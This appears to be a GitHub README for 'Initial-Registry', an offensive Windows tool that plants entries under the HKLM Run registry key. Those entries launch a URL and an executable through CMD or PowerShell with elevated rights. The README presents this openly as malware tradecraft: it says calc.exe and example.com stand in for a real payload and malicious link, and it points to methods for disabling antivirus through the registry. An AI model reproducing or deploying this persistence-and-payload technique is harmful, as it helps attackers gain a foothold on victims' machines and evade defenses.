 # Initial-Registry
It is a registry file that performs malicious activities when the refresh button is pressed, Such as start a malicious link, making an execution for payload, or running a malicious command line in CMD or PowerShell
![1706749031823](https://github.com/S3N4T0R-0X0/Initial-Registry/assets/121706460/f5c7acd0-77a2-4410-80c4-4f8c095e7dee)

Specifically through the registry.

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]
"TaskManagerURL"="cmd /c start http://www.example.com && calc.exe"

The harmful activities are carried out through the CMD, but the operator may also need to execute these activities from the PowerShell and not the CMD, which is why I put this other registry as an alternative to the CMD.

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]
"TaskManagerURL"="powershell -Command \"Start-Process 'http://www.example.com'; Start-Process 'calc.exe' -Verb RunAs\""


Of course, in the real operation, Calc.exe will be replaced by payload, and example.com will be replaced by the malicious link. with all these malicious activities, you may be exposed to detection, and also since we use the Windows Registry in this operation, we may also use the Windows Registry or after the Windows registry to create a disable for defenses


https://github.com/S3N4T0R-0X0/Initial-Registry/assets/121706460/6e5b2591-3953-4a6b-b05f-81a405e8bf80

I used this site for resources to desible defenses through the Windows registry by setting Windows Registry  Activity in the disable.txt
https://swisskyrepo.github.io/InternalAllTheThings/redteam/persistence/windows-persistence/#disable-antivirus-and-security

Note: After clicking on the registry file and setting the payload input, you may need to restart the Windows machine so that you can run the exploit.




